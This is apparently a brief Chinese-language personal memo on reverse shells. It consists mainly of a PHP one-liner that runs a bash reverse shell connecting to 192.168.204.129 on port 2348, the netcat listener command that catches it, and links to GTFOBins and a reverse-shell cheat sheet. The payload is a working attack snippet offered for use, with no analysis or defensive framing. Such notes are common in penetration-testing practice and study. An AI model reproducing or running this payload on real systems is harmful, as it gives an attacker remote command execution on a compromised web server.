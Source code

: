 # 反弹 Shell 小记

```
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.204.129/2348 0>&1'"); ?>

    sudo nc -lvnp 2348
```

- https://gtfobins.github.io/

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet